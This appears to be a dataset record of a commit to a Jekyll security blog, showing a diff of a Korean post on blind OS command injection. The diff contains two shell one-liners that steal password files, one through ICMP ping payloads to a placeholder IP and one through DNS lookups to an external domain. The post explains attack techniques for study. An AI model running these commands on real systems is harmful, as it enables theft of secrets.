

Before and after one commit to hacktagon/hacktagon.github.io, a Jekyll site: the page built from _posts/2017-03-12-Blind-OSCommandInjection_Persu.md, in a window 1280 px wide and 900 px high, scrolled down 7976 px. Shown: the part 141-459 px from the top of the window, without its empty margins (158-1117 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; library files that are not in the unit come from our copies.

Commit message:
init
test

```diff
--- a/_posts/2017-03-12-Blind-OSCommandInjection_Persu.md
+++ b/_posts/2017-03-12-Blind-OSCommandInjection_Persu.md
@@ -138,7 +138,7 @@
 
 ICMP 프로토콜은 목적지 IP에 대해 상태를 점검 하거나, management하기 위해 사용되는 서비스다. 보통 우리가 자주 쓰는 ping 명령어 또한 ICMP 메세지를 통해 전송되는 것이며, 위 내용과는 조금 다른 방식으로 사용된다.
 
-- cat password.txt | xxd -p -c 16 | while read exfil; do ping -p $exfil -c 1 xxx.xxx.xxx.xxx; done
+- Cat password.txt | xxd -p -c 16 | while read exfil; do ping -p $exfil -c 1 xxx.xxx.xxx.xxx; done
 
 <img src="{{ site.url }}/images/2017-03-12/13.png" style="display: block; margin: auto;">
 
@@ -152,7 +152,7 @@
 
 DNS 프로토콜은 Domain name에 해당하는 IP 주소를 DNS 서버에 요청하여, 목적지 URL의 IP를 알아 오는 역할이다.
 
--  cat /data/secret/password.txt | while read exfil; do host $exfil.contextis.com 192.168.107.135; done
+- cat /data/secret/password.txt | while read exfil; do host $exfil.contextis.com 192.168.107.135; done
 
 <img src="{{ site.url }}/images/2017-03-12/15.png" style="display: block; margin: auto;">
 
```
